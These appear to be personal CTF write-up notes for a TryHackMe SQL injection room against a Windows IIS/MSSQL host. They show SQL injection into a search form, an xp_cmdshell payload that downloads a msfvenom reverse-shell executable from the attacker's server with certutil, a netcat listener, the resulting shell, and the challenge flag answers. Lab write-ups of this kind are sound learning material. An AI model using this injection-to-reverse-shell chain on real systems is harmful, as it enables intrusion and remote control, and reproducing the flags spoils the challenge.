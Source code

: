 Whatweb Result: 
	[ http://10.10.86.217 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.86.217], JQuery, Microsoft-IIS[10.0], PHP[8.2.11], Script, Title[Worst Grumpy Company], X-Powered-By[PHP/8.2.11], X-UA-Compatible[IE=edge] ]

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[1] http://10.10.86.217/giftresults.php? is the search form -->> vulnerable after trying 'or 1=1'
	
[2] output Database query error: Array ( [0] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 105 [code] => 105 [2 => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]
	
[3] http://10.10.86.217/giftresults.php?age='OR 1=1 --senior&budget=30 // 

	lets try to inject an reverse shell 
		msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LocalIpAdress> LPORT=4444 -f exe -o reverse.exe 

		put revershell in ~ and python3 -m http.server 8000

		http://10.10.86.217/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://LocalIpAdress:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --

		python3 -m http.server 8000   
		Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
		10.10.86.217 - - [17/Dec/2023 11:53:55] "GET /reverse.exe HTTP/1.1" 200 -

	setup netcat to selected port:  nc -lvnp 4444

	now execute the reverseshell 
	http://10.10.86.217/giftresults.php?age=%27;%20EXEC%20xp_cmdshell%20%27C:\Windows\Temp\reverse.exe%27;%20--


		└─$ nc -lvnp 4444
		listening on [any] 4444 ...
		connect to [10.8.224.251] from (UNKNOWN) [10.10.86.217] 49900
		Microsoft Windows [Version 10.0.17763.1821]
		(c) 2018 Microsoft Corporation. All rights reserved.
		C:\Windows\system32>    

[4]C:\Users\Administrator\Desktop>type Note.txt

[5]C:\Users\Administrator\Desktop>restore_website.bat // Go check restored webpage /index.php for flag


	answer[1] : giftresults.php
	answer[2] : ODBC Driver 17 for SQL Server
	answer[3] : THM{a4ffc901c27fb89efe3c31642ece4447}
	answer[4] : THM{b06674fedd8dfc28ca75176d3d51409e}
	answer[5] : THM{4cbc043631e322450bc55b42c}
